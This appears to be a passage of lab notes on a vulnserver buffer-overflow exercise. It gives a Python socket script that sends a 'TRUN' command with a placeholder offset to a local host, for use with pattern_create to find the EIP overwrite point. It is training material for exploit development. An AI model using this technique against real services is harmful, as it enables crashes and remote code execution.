 ## tool to overwrite the EIP
1. Creating a code to send to immunity debugger and vulnserver:
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.14',9999))
	print("connect")
	payload = "TRUN /.:/" + offset
	print("payload")
	s.send((payload.encode()))
	print("send")
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

2. We need to create some code using **pattern_create** tool to put as a offset above:
![[buffer_overflow3.png]]
   We just send the above code and then we get a value on the EIP because vulnserver crashes there.